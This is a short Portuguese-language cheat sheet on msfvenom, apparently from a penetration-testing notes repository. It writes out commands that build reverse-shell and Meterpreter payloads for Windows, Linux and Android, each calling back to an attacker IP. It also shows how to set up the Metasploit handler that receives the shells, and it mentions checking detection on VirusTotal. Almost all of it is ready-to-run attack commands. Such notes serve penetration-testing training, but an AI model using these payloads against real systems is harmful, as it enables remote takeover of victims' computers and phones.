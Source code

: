 # MSFVENOM

O **msfvenom** é utilizado para criação de exploit.  
Teste os seus payloads através do site <https://www.virustotal.com>.  
*Cuidado pois ao enviar para o vírus total, a heurística pode ser atualizada nos antivírus.*

Verificar todos os payloads:

```bash
msfvenom --list payloads
```

Gerando payload para Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=443 -f exe > virus.exe
```

Para receber a conexão do alvo será necessário que o msf esteja em execução:

```bash
msfconsole
```

```msf
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > exploit*
```

Criando um exploit para Windows para BoF:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.100 LPORT=443 -b "\x00\x0a\x0d\x20" EXITFUNC=thread -f python
```

**-p windows/shell_reverser_tcp** ==> Tipo do exploit.  
**LHOST** ==> IP de conexão reversa.  
**LPORT** ==> Porta de conexão reversa.  
**-b "\x00\x0a\x0d\x20"** ==> Bad caracteres ou caracteres inválidos.  
**-f python** ==> Linguagem que vai ser gerado o exploit.  
**EXITFUNC=thread** ==> Evita que a aplicação morra depois do exploit ser fechado.

Gerando payload binário para sistema Linux:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 -f elf > malicioso
```

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*

Gerando payload APK para Android:

```bash
msfvenom -p android/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 R > malicioso.apk
```

**R** ==> Salva em modo RAW.

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*
